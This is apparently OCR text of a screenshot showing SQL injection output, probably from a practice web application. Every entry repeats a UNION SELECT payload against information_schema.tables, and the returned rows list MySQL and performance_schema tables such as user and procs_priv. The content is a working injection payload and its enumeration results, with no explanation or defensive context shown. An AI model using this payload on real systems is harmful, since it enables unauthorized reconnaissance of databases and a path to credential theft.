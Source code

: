 ```
Surname: plugin
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: mysql
Surname: proc
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: mysql
Surname: procs_priv
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: mysql
Surname: proxies_priv
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: mysql
Surname: servers
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: mysql
Surname: slow_log
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: mysql
Surname: tables_priv
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: mysql
Surname: time_zone
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: mysql
Surname: time_zone_leap_second
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: mysql
Surname: time_zone_name
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: mysql
Surname: time_zone_transition
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: mysql
Surname: time_zone_transition_type
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: mysql
Surname: user
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: performance_schema
Surname: cond_instances
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: performance_schema
Surname: events_waits_current
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
First name: performance_schema
Surname: events_waits_history
ID: ' UNION SELECT table_schema, table_name FROM information_schema.tables WHERE TABLE_TYPE="BASE TABLE";-- -
```